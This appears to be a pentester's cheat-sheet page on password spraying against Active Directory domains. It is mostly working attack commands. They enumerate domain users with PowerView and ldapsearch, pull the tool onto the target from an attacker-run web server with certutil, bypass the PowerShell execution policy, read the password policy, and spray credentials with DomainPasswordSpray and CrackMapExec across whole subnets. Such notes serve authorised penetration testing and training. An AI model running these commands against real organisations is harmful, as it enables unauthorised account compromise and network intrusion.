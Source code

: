 # Password Sprayng

**ATT\&CK ID:** [T1110.003](https://attack.mitre.org/techniques/T1110/003/)



**Password spraying** is an attack technique in which an adversary attempts to compromise user accounts by trying to authenticate with a curated list of passwords that are either frequently used or likely to be used by their target.

Task to need to perform password spraying:

* Task 1: Identify all the **users in the domain**
* Task 2: **Initiate** the Password Spraying Attack
* Task 3: **Execution and Verification** of the Password Spraying Attack



## Users Enumeration

### PowerView Import & Enum

Lets use PowerView ps1 module to enumerate all domain users.&#x20;

Copy the script below in a .ps1 file on Kali and transfer file with web server to target machine.

```bash
# kali machine
nano PowerView.ps1

python3 -m http.server 80
```

```powershell
# target machine
cd C:\Temp
certutil -urlcache -f http://$IP:80/PowerView.ps1 PowerView.ps1

powershell -ep bypass

# upload the ps1 script
. .\PowerView.ps1
```

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

Run the PowerView command to domain users enumeration

```powershell
# run and save the output into a file 
Get-DomainUser | Select-Object -ExpandProperty cn | Out-File users.txt
type users.txt # to print the output file 
```

***

Another powershell comand to enum domain users:

```powershell
net user /domain
```

### ldapseach (from linux)

The following command makes a request to LDAP to return an output file with all users in the domain.

{% code overflow="wrap" %}
```bash
ldapsearch -H ldap://<DC_IP> -D "user@domain.com" -w <password> -b "dc=domain,dc=com" "(objectClass=user)" | grep "sAMAccountName: " | awk -F'sAMAccountName: ' '{print $2}' > users.txt
```
{% endcode %}





## Get Password Policy

If you have some user credentials or a shell as a domain user you can **get the password policy with**:

### From linux

```bash
# from kali
crackmapexec ldap $IP -u 'user' -p 'password' --pass-pol

ldapsearch -H ldap://10.10.10.10 -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

### From windows

```powershell
# from Windows
net accounts

# from PowerView
Get-DomainPolicy
```

## Run Password Spray

### From Windows

#### DomainPasswordSpray.ps1

Copy this .ps1 script to a file on target machine and import it.

```powershell
cd \PATH\TO\DomainPasswordSpraying.ps1
. .\DomainPasswordSpraying.ps1
```

{% embed url="https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1" %}

Execute this command to do password spray

<pre class="language-powershell"><code class="lang-powershell"><strong>Invoke-DomainPasswordSpray -UserList .\users.txt -Password $PASS -Verbose
</strong></code></pre>

***

```powershell
Invoke-SprayEmptyPassword
```

{% embed url="https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-SprayEmptyPassword.ps1" %}

### From Linux

#### CrackMapExec

<pre class="language-bash"><code class="lang-bash">crackmapexec smb &#x3C;IP> -u users.txt -p passwords.txt --continue-on-success

# all the subnet
<strong>crackmapexec smb &#x3C;IP>/&#x3C;CIDR> -u users.txt -p passwords.txt --continue-on-success
</strong></code></pre>













